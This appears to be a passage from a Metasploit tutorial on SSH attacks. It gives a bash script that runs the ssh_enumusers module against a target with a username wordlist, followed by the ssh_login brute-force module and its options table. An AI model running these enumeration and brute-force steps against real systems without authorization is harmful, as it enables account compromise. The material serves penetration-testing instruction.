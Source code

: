 ### Advanced User Enumeration Script

```bash
#!/bin/bash

TARGET=$1
USER_LIST=${2:-"/usr/share/metasploit-framework/data/wordlists/common_users.txt"}

echo "[*] Enumerating SSH users on $TARGET"
echo "[*] User list: $USER_LIST"

msfconsole -q -x "
workspace -a ssh_user_enum;
setg RHOSTS $TARGET;
use auxiliary/scanner/ssh/ssh_enumusers;
set USER_FILE $USER_LIST;
set VERBOSE true;
run;
exit"
```

## SSH Brute Force Attacks

### SSH Login Scanner

```bash
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting                      Required  Description
   ----              ---------------                      --------  -----------
   BLANK_PASSWORDS   false                                no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                    yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                no        Add all users in the current database to the list
   PASSWORD                                              no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/common_passwords.txt  no        File containing passwords, one per line
   RHOSTS                                               yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22                                  yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                yes       Stop guessing when a credential works for a host
   THREADS           1                                   yes       The number of concurrent threads per host
   USERPASS_FILE                                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/common_users.txt  no        File containing usernames, one per line
   VERBOSE           true                                 yes       Whether to print output for all attempts
```
